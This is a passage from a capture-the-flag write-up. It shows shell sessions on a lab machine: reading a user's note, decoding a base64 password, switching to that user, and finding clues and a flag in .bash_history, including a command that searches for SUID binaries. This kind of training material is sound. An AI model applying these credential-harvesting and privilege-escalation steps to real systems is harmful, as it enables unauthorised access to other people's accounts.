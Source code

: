 ```bash
Low_Priv Shell $:cat /home/david/note.txt
cat /home/david/note.txt
My_Dairy 00:66:33:22:66
----------------------
Hey, I am david , Employee of CSS_Platent. I know I am good in security. AS this is my home floder which cannot acessed by a thirdparty, I can save my datas here. no one can see my datas.but still I will encrypt my datas for security

uname : davaid_look001919
mail : david911@cssplatent.com
pass : c3lianJlb25mcjEwMgo=

Low_Priv Shell $:echo 'c3lianJlb25mcjEwMgo=' | base64 -d
echo 'c3lianJlb25mcjEwMgo=' | base64 -d
sybjreonfr102

Low_Priv Shell $:su david
su david
Password: fl{REDACTED}

Mid_PrivShell $: id    
id
uid=1001(david) gid=1001(david) groups=1001(david)
Mid_PrivShell $: 

```

We have switch to the user `david`, Unfortunaltey we can't find 2nd flag on david's home directory, how ever when we read `.bash_history` file, we will find the path for the 2nd flag, another `note.txt` and a suspicious file called `odus`.

```bash
Mid_PrivShell $: cat .bash_history
cat .bash_history
exit
ls
cd /
find / -type f -perm -u=s 2>/dev/null
mv /home/david/.bin/8/0/1/9/4/0/wget /home/david/.bin/8/0/1/9/4/0/find_it_by_yourself
exit
sudo -l
ls
clear
ls
cp  /home/david/.bin/8/0/1/9/4/0/find_it_by_yourself  /tmp/wget
cp  /home/david/.bin/8/0/1/9/4/0/odus  /tmp/wget
exit

Mid_PrivShell $: cd .bin/8/0/1/9/4/0
cd .bin/8/0/1/9/4/0
Mid_PrivShell $: ls
ls
flag2.txt  note.txt  odus

Mid_PrivShell $: cat flag2.txt
cat flag2.txt
e647{REDACTED}

Mid_PrivShell $: cat note.txt
cat note.txt
So your reach the final stage...
so everything depends upon your way of thing and practical usage and logical thiking of varius applications to find this hidden app
I can only tell you one thing. If you can find this file, Your path is perfect. 
```